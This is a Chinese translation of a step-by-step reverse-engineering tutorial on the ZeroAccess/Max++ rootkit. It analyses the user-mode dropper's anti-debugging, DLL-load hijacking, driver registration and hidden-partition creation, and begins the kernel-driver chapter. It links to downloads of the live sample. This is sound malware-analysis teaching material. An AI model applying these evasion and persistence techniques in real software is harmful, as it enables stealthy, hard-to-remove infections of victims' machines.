# 一步一步逆向分析黑色样本: ZeroAccess/ Max++/ Smiscer Crimeware Rootkit

> 原文：[`www.pediy.com/kssd/pediy12/141124.html`](https://www.pediy.com/kssd/pediy12/141124.html)

原文 [Step-by-Step Reverse Engineering Malware: ZeroAccess / Max++ / Smiscer Crimeware Rootkit](http://packetstormsecurity.org/news/view/18174/Reverse-Engineering-ZeroAccess-Crimeware.html)

## 总序

这分成四个部分的系列文章，是一个完全的一步一步来分析 `ZeroAccess Rootkit` 的教程。它也被叫做 `Smiscar` 恶意软件，或叫做 `Max++ rootkit`。透过循着教程一步步的看下去，你可以更深入更好的理解到在分析复杂到此种程度的现代 rootkit 时的思考过程。我们还推荐你把文中提到的工具们下载下来、以及找一个 `ZeroAccess` 的样本，并在阅读文章的同时，自己能亲手亲自看一看的逆向它。如果你想使用文中分析的具体这个样本的话，可以从这儿下载到它: [`Max++ Malware`](http://resources.infosecinstitute.com/step-by-step-tutorial-on-reverse-engineering-malware-the-zeroaccessmaxsmiscer-crimeware-rootkit/max-downloader-install_2010/)。注意样本的压缩包已经用密码保护起来以避免误操作了，引号中 "infected"。从本文楼层的附件中也可以下载到它。

`InfoSec` (原作者所在的公司) 把 `ZeroAccess` 定义作一个复杂且高端的超级 rootkit 程序。它拥有 4 个主要模块，也就是我们接下来每篇文章将要对应着做详细分析的。`ZeroAccess` 它是一个模块化的恶意 rootkit，它就像一个给应用程序提供生存空间的操作系统般的平台，其主功能是能够安装可控数量的病毒程序到中毒机器上。它的能力还让它自己以及它所安装的病毒程序对于专业级别用户也几乎是完全不可能清理掉的了，同时，它还对自己做了些让专业的病毒分析师难以着手分析的处理。

文章的最后，在整个分析结尾的时候，我们会去跟踪 `Zeroccess Rootkit` 犯罪分子所在的源头。我们会发现这整个 rootkit 的目的是要建立起来一个强壮，不可检测而且不可切除的平台，以供病毒在中毒机器上进行繁衍和破坏。我们也会看到在现在，`ZeroAccess` 正在用来传播一个叫做 `FakeAntivirus` (假杀毒) 的犯罪程序，它的罪行是哄骗用户花 70 美元(大约 400 RMB)以移除掉自己这个杀毒软件。假设 100% 的受害用户都付了这笔钱的话，那就将是一笔数额达到 `$17,500,0000` (约 10 5000 0000 RMB) 的巨额黑金。现实的，不会有 100% 的用户付给罪犯这钱，但假定会有约 30$ 的用户受骗的话，结果也有总额达到 `$5,250,0000` (3 1500 0000 RMB) 的黑金流进 `RBN` 网络犯罪团伙的腰包了。

`ZeroAccess Rootkit` 拥有如下的特征和能力:

* 先进稳固的劫持(hook)住了操作系统-这使得在不影响操作系统稳定性的前提下，很难移除掉它
* 使用底层 API，从硬盘上分出一块完全在受害机器上隐藏着的新分区(盘符)，这把对它进行的传统磁盘扫描变成不可能的，或也是很难做到了。
* 复杂并有高可靠性的修改了被害操作系统的驱动，让病毒代码可以依此来启动。
* 高技巧的过杀软机制
* 抗扫描技术- `ZeroAccess` 使用底层的磁盘和文件系统调用来对抗常见的磁盘中、内存中扫描技术
* 提供一个强键有力的恢复其他病毒，并可以安装新病毒的平台
* 通过 `APC` (Asynchronous Procedure Calls 异步过程调用) 插入到所有的用户空间和内核空间的进程、还会跟着插进去自己的模块，以在内核级别监视住整个系统的功能，并且可以无缝的插入代码到任何被监视的模块中。

在我们这个教程中，我们会从头到尾同时不对病毒做干预的进行分析，我们跟着一条病毒对全新又无辜的用户机子感染的过程来进行我们的分析。这种分析方法，实际在文中的表现就是，我们会把 rootkit 的注入方法和用来感染机器的执行流程，以类似于年度总结的形式描述出来。年度总结似的分析体现给我们的会是一种思路性的 rootkit 注入过程，它所表现出来的注入思路有大量以前分析过的其他高端 rootkit 也使用到了。所以，有必要提醒你，在这一篇章中认真的感觉 rootkit 进行注入的流程，然后，在以后的病毒分析中你会很经常的发现这个经验是用的上的。

通常的，一个 rootkit 感染进一个主机时，它执行流程可以一步步的分为下面的格式:

1. 传播 rootkit，以使其可以接触到被害系统的运输工具. (如对用户引导性的下载，或是客户端上的溢出漏洞，或下载者)
2. 用户模式的感染中介程序
3. 对驱动的解密和执行起驱动
4. 驱动在内核中进行系统级别的隐藏
5. 从受害主机上冒出来，并从内核级别进行数据的监视/盗取
6. 把盗取到的数据发送到一个隐蔽的数据通道里

我们也对应上面的一步步，把 `ZeroAccess` 的分析划成了一系列的文章：

* 章节 1: 总序。还有对用户模式的感染中介程序的反混淆，以及逆向分析
* 章节 2: 逆向分析内核模式中的数据盗取功能驱动
* 章节 3: 逆向分析内核模式中的进程注入功能的驱动
* 章节 4: 利用逆向工程跟踪到使用 `ZaeroAccess rootkit` 的罪恶之源

我们的分析将从用户层的代理程序开始，最后结束于 rootkit 丢出来的二个内核中的病毒设备驱动程序。

### 从源头开始分析

`ZeroAccess rootkit`，在传播的源头是以一个恶意的可执行程序的形式存在的，它首先是通过引导性的下载来传播。引导性的下载有三个类型，每个都代表一种意外的从网上就下载到东西的情况：

1. 下载行为是一个用户所允许了的下载，但用户当时并不明白将有什么后果(例，她下载了一个未知发行者或伪造发行者的可执行程序，或是 `ActiveX` 组件、`Java` 小程序)
2. 任何的，用户不知道的下载行为
3. 广告程序、计算机病毒或任何其他能在用户机器上进行用户不知道它存在的隐式下载程序

引导性下载，可能会出现在用户访问一个网站，或者打开一个 `e-mail` 时，也可能因为他相信了虚构弹窗广告而点击了一个而产生。比方说，谋个弹出广告会说，一个计算机内部的错误被发现了，还有的可能弹出来一个看起来是无害的广告，但却带个关闭按钮。不论怎样，只要用户点击到了伪造的位置，内容提供者(比方浏览网页内容的 `IE`) 可能会认为是用户"同意做某事"了，于是内容提供商就会去下载一个虽然也许是不知道，并且还不想要甚至就是病毒性质的程序了。一个带有触发 `windows metafile` 漏洞的网页就，是一个这种引导下载的例子。

回到说 `ZeroAccess`，它是有一些很强力的 rootkit 特征的:

* 抗文件系统扫描的能力，它感染了关键的系统驱动(`disk.sys`, `atapi.sys`)，还盗取了 `PIC` 驱动对象以及做了 `IRP Hooking`
* 感染了系统的设备驱动
* 在内核模式中对用户模式进程做监听，并对其注入 rootkit 的 `DLL`
* `DLL` 的隐藏，过杀软能力
* 面对修复感染行动时的绝对耐打

## 章节 1: 对用户模式的下载者代理程序的反混淆与逆向分析

我们的 Rootkit 是一个被混淆了的程序，存在于我们面前的，是个通常名字为 `Max++ downloader install_2010.exe`，加壳的可执行文件。我们分析的具体文件的 hash 值是:

```
MD5: d8f6566c5f9caa795204a40b3aaaafa2
SHA1: d0b7cd496387883b265d649e811641f743502c41
SHA256: d22425d964751152471cca7e8166cc9e03c1a4a2e8846f18b665bb3d350873db
```

对它的基本分析，显示出这个可执行文件有如下的 PE 区段和导入表:

```
Sections: .text .rdata .rsrc
Imports: COMCTL32.dll
```

这个导入表中只剩下些对我们分析很无力的信息。这在一般意义上就是说，我们的这个 rootkit 程序所必须要和不必须用的那些 API 函数，都是它在运行时才进行 API 导入的。我们现在到入口点观察下:



程序入口的代码，以一个函数的标准来说很标准，只是，除了一个特别的有意思指令除外，如你所见的，在 `00413BD5` 我们遇到了一个出众的 `int 2dh` 指令.

`int 2dh` 指令是 windows 内核模式调试机制的一部分，它用来提供个主动访问调试机制的接口。当一个 `int 2d` 被调用的时候，系统会创建出一个相应 `EXCEPTION_RECORD` 结构，并在里面填充异常代码为 `STATUS_BREAKPOINT`，结构的其他部分则填充成具体异常时的线程环境。默认的对这个异常的处理，是调用 `KiDebugRoutine` 来完成的。

`int 2dh` 是被 `ntoskrnl.exe` 用来中断给调试服务的指令，但在用户模式我们也是可以使用它的。如果我们试着去在正常情况使用它的话(没调试器附加上去时)，我们肯定会得到一个标准的异常。然而，若附加了一个调试器上去的话，这个标准的异常就不会出现了。

( [更多关于 `int 2dh` 的信息可以到此阅读](http://www.openrce.org/reference_library/anti_reversing_view/34/INT%202D%20Debugger%20Detection/) )

当 `int 2dh` 被调用到的时候，我们遇到了第一次 `ZeroAccess` 抗逆向分析的行为，也是它的一个花指令。系统在碰到这个中断时，会将程序的 `EIP` 加上一，直接越过中断位置后的一个字节，这就把中断后的那个指令的 `opcode` 给断开了。而这，会实质性的导致指令的执行，跟反汇编器里明白显示出来的指令流程不再一样了，也即调试器的反汇编的指令顺序成了错误的。

为了让它可以正常执行，我们需要一个能模拟 `int 2dh` 正确处理流程的方法，需要实现越过指令一字节，来允许我们跳转到被切开的那条指令的东西。为了这个，我们就要给 `OD` 加上 `StrongOD Olly` 了， [你可以从这儿下载到它](http://reversengineering.wordpress.com/2010/07/26/strongod-0-3-4-639/) (`unpack.cn` 上的是最新版)

`StrongOD` 安装好后，我们就可以在单步过 `int 2dh` 指令了，其后我们遇到了下面的流程:



这儿对我们而言最有意思的指令 `Call 00413bb4`。就在它后面，我们看到了一堆新的垃圾指令，那就先进入这个 call 看看，你看到的会是下面的代码块：



再一次的，我们碰到了个 `int 2dh`，因为它，我们要先拐到 `RETN` 指令其后的一个字节处好继续执行。在它后面的指令，作用是解密出周围的一片代码，往下再跟踪一段后，我们就到达了下图的地方：



上图的调用会解密出另一个代码块，在它执行完后，代码跳转到了下面的地方:



一个 `FS:[18]`，这地址对应的是线程的 `TEB` 结构(`Thread Environment Block`)，程序找到 `TEB` 的目的，是为了获取到 `PEB` (`Process Environment Block`) 的地址，它保存在 `TEB` 的地址 + `0x30` 的地方。

而 `PEB + 0xC` 指向的元素，是个 `PPEB_LDR_DATA LdrData`

要你是在用 `WinDBG` 做分析的话，你现在可以使用一个快捷技巧来得到在 结构->偏移->元素之间的具体关系，只需使用指令:

```
0:004> dt nt!_PEB_LDR_DATA

 ntdll!_PEB_LDR_DATA
 +0×000 Length           : Uint4B
 +0×004 Initialized      : UChar
 +0×008 SsHandle         : Ptr32 Void
 +0x00c InLoadOrderModuleList : _LIST_ENTRY
 +0×014 InMemoryOrderModuleList : _LIST_ENTRY
 +0x01c InInitializationOrderModuleList : _LIST_ENTRY
 +0×024 EntryInProgress  : Ptr32 Void
 +0×028 ShutdownInProgress : UChar
 +0x02c ShutdownThreadId : Ptr32 Void
```

如你所见的，上述的恶意代码找到了 `_PEB_LDR_DATA + 0x1C`，通过对照 `WinDBG` 的输出你会发现 `ECX` 现在指向的是 `InInitializationOrderModuleList` 元素。而在其后的代码，负责的就是定位到导入表函数的地址，接着现在就像空中飞人一样构造出了一个程序所用的导入表。导入表完成后，又有了一片非常复杂之的一串串嵌套调用，很明晰的，是用作解压 `ZeroAccess` 关键代码的一层一层的东西。我们现在是不会去分析它的。因为这段代码是相当的长，还因为是用复制粘贴方式写出来的，它无比的无趣，最后还跟我们要分析的 rootkit 功能部分是没一点点关系的。

对导入表函数的地址加密做的很成功，只有在调用到具体函数的时候，那个函数的地址才会被临时的解压出来。让我们看一个 API 调用具体怎么样的：



`Call 00401172` 负责解密 API 地址，并把值返回在 `EAX` 中，后面的 `JMP EAX` 就是调用 API 了。在上面一个代码片段中，所调用的 API 是 `VirtualAlloc`。这儿申请的内存，将被用来保存此感染代理程序之后要抖啊抖出来的几个指令块。那些被感染代理抖出来的块，最终要构成一个新可执行文件的。

现在，主模块构造好(主模块我们指的是此感染载体程序，我们刚才也叫它为感染代理) 并且丢出了数个文件到受害机器的硬盘上，当然，它们在主模块的内存中也是保存着的。不管它在硬盘还是内存中，它们被调用到的顺序总是一样的：



继续，让我们试着判定出这段代码是在解压出些什么东西来。我们现在要在 `0040162B` 处下一个断点，它是上图 `Next Block` 跳转后的第一个指令。而 `Next Block` 代码块的结束，代表着代码解密过程已经执行结束了，执行到此，我们已经可以在程序申请到的内存中找到 "MZ" 标记了，这让我们确定解压出的可执行程序，已经是可以执行的地步了。在继续下一步分析前，我们建议你把完整的可执行程序 dump 到硬盘上，可以 [用 `Olly` 的备份功能实现](http://resources.infosecinstitute.com/in-depth-seh-exploit-writing-tutorial-using-ollydbg/).

你也可以直接从这儿下载： `dumped.rar`

下面的代码块，被用一个 `VEH` (`Vectored Exception Handler`) 给保护起来了，它是由 `RtlAddVectoredExceptionHandler` 和 `RtlRemoveVectoredExceptionHandler` 加上去和卸载的。跟进去，我们碰到的是一段真的很重要的代码块。它的功能都是调用未文档化的 API 实现的，包括用 `LdrLoadDll` 载入 `lz32.dll`，以及要创建一个 `Section Object`.



`Section Object` 代表的是，一个可以被进程间共享的内存区块，一个进程可以利用一个 `Section Object` 和其他的进程共享一片内存地址。而 `Section Object` 还提供了让进程可以把一个文件映射(map) 到它的内存空间的能力。


注意，看一下上图红线圈起来的部分，程序在此执行进了一个储存在 `EAX` 中的地址 `003C24FB`。如你所见，这地址是属于刚刚 `LdrLoadDll` 载入的那个 `lz32.dll` 的地址的。因为这个 `call`，执行流程跃进了 `lz32.dll` 模块的地址空间内，但是事实上，包裹里面现在不是 `LZ32.dll`，包的却是感染代理解压出的那段真正的核心恶意程序。 (#这里面的代码，是在前面那个 `call` 里处理完成的。这儿它和 `lz32.dll` 的关系是不可共存关系。`lz32.dll` 的实际作用是提供一个利用 `LdrLoadDll` `PE` 载入功能的机会而: 程序用一个在 `ZwMapViewSection` 单步断点的断点断在 `LdrLoadDll` 里面，将 `lz32.dll` 载入过程时 `ZwMapViewSection` 的使用的地址修改成前面那个 `Section Object` 的地址，让操作系统本为 `lz32.dll` 准备的 `PE` 文件载入过程用在程序自己的 `PE` 文件上。最终，释放 `PE` 文件头所在的一个 `0x1000` 大小内存块完成这个看着就很无力的反调试流程)

新的程序，我们一跳过去就看到下面这个样子的代码了:



如果跟踪进 `Call 003C23DB`，我们会发现一个有超长的函数，这儿就是再下一步的感染过程。再遵循实际严格点的说，我们在这儿发现的是内核模块的安装过程。我们会看到一系列的新奇代码，为的是躲开那些经典杀软的拦截，包括对 `Section Objects` 的利用，还有把自己的东西放进入系统文件映射中等。

让我们检查下这整个感染代理的最核心过程吧。我们现在会一片片的把它给分析干净:



当分析一个复杂病毒的复杂片段时，把句柄窗口、模块窗口都打开在 `OD` 界面上是一个很好的习惯和练习。这可帮助你保持能跟紧在病毒载入、卸载模块，以及及时的发现它在打开一个文件/object/线程/等东西。现在，让我们来看看在 `003C2461` 处调用到了的 `Call 003C1C2C` 中发生了些什么(在 `ExitProcess` 的后面)。

一进来，我们就看到对 `\\system32\\drivers` 目录中驱动的枚举，接着又有下面的一块代码:



在这儿碰到的是一个很有意思的算法。它在枚举了驱动程序之后，一个随机数也被制造出来了，把它挤进 `[0- 0xff]` 的范围中后，随机数被用来随机的从获取到的驱动列表中选择一个驱动出来。最后，还有一个字符串的格式化，字符串样子是：

  `\\.\_driver\_name\_`

让我们打开句柄窗口，看看现在发生了什么事:



如你可见的，一个根据随机选中的驱动来创建的 `Section Object` 冒出来了，在下面，这个 `Section` 就要被映射(`View`)到程序的内存空间了。

值得注意的是，这个 `Section` 访问权限的值被设置成了 `0xf001f`。我们先说下为什么这个权限值得注意。在分析一个病毒的过程中，感觉上你就像在进行一个法医调查，做调查的一个基础，是要调查好对手访问到了几个部分，据此我们可以为我们的调查指明正确要投入力气的方向。逆向分析中的这种信息，可以通过检查变量们上所附的访问权限来获取的。

让我们找找 `0xf001f` 访问权限到底指的是什么，`winnt.h` 中有:

```
#define SECTION_ALL_ACCESS 0xf001f
```

`SECTION_ALL_ACCESS` 意味着，这句柄指向的 `SECTION_OBJECT` 中的数据能允许的行为已包括了读取、写入、查询还有执行。这个，可不就是最佳的恶意代码滋生地点了。让我们继续分析:



上述代码把之前选好的那个驱动，一起领着然后把它写入到注册表：

`\\registry\\MACHINE\\SYSTEM\\CurrentControlSet\\services\\`

在这个 `CurrentControlSet` 下面的 `\\services` 项里面，它包含了设备驱动、文件系统驱动、还有 `win32` 服务驱动的设置的信息。对于每一个服务，都要在这儿有一个对应于服务名称的子键。

我们的注册表键的名字会是字符串 `\\.\_driver\_name\_`

我们的服务启动类型为 `0x3`，意思是 -> `Load on Demand`

服务类型为 `0x1`，意思是 -> `Kernel Device Driver`

可执行文件路径是 -> `\\\*`



事情总是这样的，现在驱动程序的文件被打开了，接着，它的文件句柄被穷尽怪异的使用了，这次是用 `ZwFsControlCode`，用到的是一个 `FSCTL`(`File System Control Code` 文件系统控制码)。再看下运行时给它的参数，显示出来的 `FSCTL` 代码是 `9C040`。这个代码的含义是 `FSCTL_SET_COMPRESSION`。它为某个硬盘卷上面的一个文件或者一个目录设置个压缩标志位，当然，先需要对应的文件系统支持对文件和目录进行预操作的压缩功能。

在其后，一个新的可执行文件会被通过之前用到过解压方法给解压出来，并通过 `ZwLoadDriver` 来完成驱动的载入。( #在 `ZwLoadDriver` 之前，先用了个 `ZwCreateSymbolicLinkObject` 把驱动文件名"\\\*"和之前随机出的驱动做了硬连接了)。我们分析的样本中这个驱动载入过程会应用在二个设备驱动上面:

1. 第一个驱动是随机选中的驱动，它会完成 `IRP Hooking`，和对某些 `Object`，包括对 `disk.sys`/`pic.sys` 的 `Object` 的盗取(之后我们要比现在详细得多的对这个事情进行个分析)

2. 第二个驱动，叫做 `B48DADF8.sys`，它是负责望风，警惕着进程创建行为的驱动，还包含着一个像小说写的一样精彩的 `DLL` 注入系统(之后我们也要对它进行一个详细得多的分析)

驱动的注入一完成，我们就发现了下面的代码:



在这儿，我们看到了名叫 `fmifs.dll` 的 `DLL`。这个 `DLL` 是用来安装文件系统的格式化管理器，同时它还提供了一个完整的文件系统管理函数集合。

这一次被使用到的函数是 `FormatEx`。下面是有文档说明的 `FormatEx` 的一点点信息:

```
VOID
STDCALL
FormatEx(
    PWCHAR DriveRoot,
    DWORD MediaFlag,
    PWCHAR Format,
    PWCHAR Label,
    BOOL QuickFormat,
    DWORD ClusterSize,
    PFMIFSCALLBACK Callback
);
```

这个函数，如它名字所示的是用来格式化硬盘卷的。在我们的情况中盘符号是 `\\?\C2CAD972#4079#4fd3#A68D#AD34CC121074` ，而要格式化成的格式是 `NTFS`。这个进行格式化的地方，就是这个让这个 `rootkit` 显得超群而卓尔不凡的地方。它调用 `fmifs.dll` 的 `API` 创建了一个隐藏的分区(盘符)，这个分区将会用来保存 `rootkit` 的驱动还有 `ZeroAcess` 感染媒介所丢出来的那个 `DLL`。即便是现在被感染了，这些恶意文件的存在也还是完全隐藏在受害者的面前，还是查不到它们的(something we teach in our ethical hacking course: `http://resources.infosecinstitute.com/ethical-hacking-training/`)

格式化了新区之后，感染代理接着要做的事情是生产新物品，使用和前面说过的相同的解压过程，其他的几个病毒程序也将被放进刚刚创建的那个隐藏分区中去。有两个文件：

* `B48DADF8.sys`
* `max++.00,x86.dll`

在最后，它们都会保存在隐藏盘符中，`\\?\C2CAD972#4079#4fd3#A68D#AD34CC121074\L\`。

我们分析到现在,在总体上对于 `ZeroAccess` 在用户模式的所作所为，已经有了一个很好的认识了，那就可以把我们的注意都投向内核模式那边了，为此，我们就要分析两个新的驱动文件和它丢出来的那个 `DLL`。

让我们在接下来继续跟踪这个 `rootkit` 的工作流程。如果你是沿着我们的分析路线来逆向的，接下来的分析就应该根据代码执行的逻辑关系来进到感染代理丢出来的二进制文件了。[我们的第一个随机名称的未命名驱动文件分析已经完成了，内容是在第二个章节中](http://resources.infosecinstitute.com/zeroaccess-malware-part-2-the-kernel-mode-device-driver-stealth-rootkit/)。

# 我很不喜欢这样的乱补充，不过有一个地方自己跟的时候不注意的话真的很头疼。在进入那个病毒 `PE` 模块后，第二个 `call` 里设置进程的权限，然后注入到一般是 `smss.exe` 的某个进程中，创建了一个 `SUSPEND` 的线程并且在配置好了堆栈后给它设置 `EIP` 启动了，具体是用 `ZwSetInformationFile` 来删除文件自身的。为什么提这个呢，为了把那二个驱动给复制出来，我运行了它好多次，每次都来删一下，7、8 次后就给气的头皮发麻了。

上传的附件

|  || `Max++ downloader install_2010.rar` |

原文 [ZeroAccess Malware Part 2: The Kernel-Mode Device Driver Stealth Rootkit](http://packetstormsecurity.org/news/view/18174/Reverse-Engineering-ZeroAccess-Crimeware.html)

章节 2: 逆向分析内核模式中的盗取功能驱动

在 `ZeroAccess` 病毒逆向分析系列的第二个部分，我们将要分析第一部分时那个用户模式感染代理扔出来的第一个驱动程序。这个驱动的基本目的是要，支撑出一个强健的功能性和组件化的供 `ZeroAccess` 恶意软件生长存活的平台。这个 `rootkit` 使的是低阶的磁盘访问函数，让它能够创建出来一个新的盘符，完全从受害者系统上隐形，完全从杀软面前隐形。考虑下实际会是什样的情况，某某谁发奋要去删除掉这个 `rootkit`，他格式化了自己的所有的盘符，当然包括操作系统所在那个盘符(比如是 `C:\`)，然后重新安装了新的 `windows`。但 `ZeroAcess` 在这一波清扫行动下会完美的幸存下来，接着重新安装它自己到新鲜的一份 `windows` 中。这对于任何试着攻击 `ZeroAccess` 的人说真的是超级沮丧的一条现实。除此以外，我们也会调查分析下 `Rootkit` 军团内部广泛使用的 `IRP Hooking` 过程，其用处是规避开检测行为以及对隐藏功能提供的支持。回说 `ZeroAccess`，其灵活选择注入数个系统驱动文件的本事，也让它比其他 `rookit` 在无声行动的路上走得更远。在本文的最后，我们将要涉及到如何利用 `rootkit` 规则中的漏洞来使用现有实际工具来检测到它存活的踪迹。

首先，我们来报告下当场分析的这个文件的标记数据和 `hash` 值：

`FileSize:` `132.00 KB (135168 bytes)`

`MD5:` `83CB83EB5B7D818F0315CC149785D532`

`SHA-1:` `39C8FCEE00D53B4514D01A8F645FDF5CF677FFD2`

没有有效的版本信息。

没有有效的资源信息。

# (必要的补充，在章节 1 有一个特别的地方是 `ZwCreateSymbolicLinkObject` 所创建的符号链接，它把`\\\*`和随机产生的那个驱动对应到一起了，因此 `LoadDriver ("\\\*")` 实际载入的是 `system32\driver` 下的那个随机驱动。你也可以从自己的那儿得到实例。只是随机驱动使得它的 `Hash` 没有参考价值，可以保证的部分是，代码是一样的。附件包含一个实例,`ndiswan.sys`)

分析开始前，第一件我们要注意的事情是这个驱动带有调试符号的 `PE` 文件，调试符号对我们的反汇编是很有帮助的。另外如果你是用 `ida` 分析的话，可以通过载入 `Tyle Library` 来提高可读性的，你应该先到 `type libraries(shift+F11)` 中把 `ntddk.h` 确定这个头文件是被 `ida` 使用的，不然导入表的函数的符号结构类型的参数就是没有解析的。

下面跟着的是一张图，是数个代码块之间的执行关系的框架:



在现代高端 `rootkit` 中，感染代理在解压和投放出来后的第一个操作是要，把它的存在从用户和杀软的视野中遮盖住。这个驱动程序中的相关部分包含了一批操作，它安装了一个对隐形的支持体系，使它的感染变的非常有弹性 、也几乎不可能清除掉了。当然，简单说它做的事情也就是，把从用户模式的感染代理开始的整个感染过程给完成。

最有可行性和简单的迫近 `rootkit` 分析的方法是，直接挂载入执行中的模块。我们将要开启一个内核模式调试器，比方说 `Syser`。在我们现在的情况中，整个 `ZeroAccess` 的代码都是位于 `DriverEntry` 的(驱动程序的 `main ()`函数)

，我们也将发现数个 `dispatch` 流程和系统线程，它们会制造一些非线性执行的代码流。

让我们从头检查下代码:



如果你还记得，我们称为选中者驱动的那个东西是被感染了的，它还被储存到了注册表中了，它的注册表项目还是一个用"点"(`.`)来开始的。在上面的代码块中，我们看到了驱动在检查这个注册表键。接着下面，你可以看见

